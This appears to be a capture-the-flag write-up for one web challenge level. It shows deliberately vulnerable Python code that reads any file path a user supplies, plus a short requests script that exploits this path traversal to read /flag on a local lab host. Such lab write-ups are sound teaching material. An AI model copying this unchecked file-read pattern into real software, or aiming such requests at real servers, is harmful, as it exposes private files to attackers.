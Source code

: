 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


## level 1

> Exploit a path traversal vulnerability

```py title="level 1 source code"
def level1():
    path = request.args.get("path")
    assert path, "Missing `path` argument"
    return (pathlib.Path(app.root_path) / path).read_text()
```

As we can see from the source code, the server takes the argument given to the `path` parameter and then returns the result.

So we can just send a request with the `path` parameter set to `/flag`.

```py title="request1.py"
import requests

response = requests.get("http://challenge.localhost?path=/flag")
print(response.text)
```
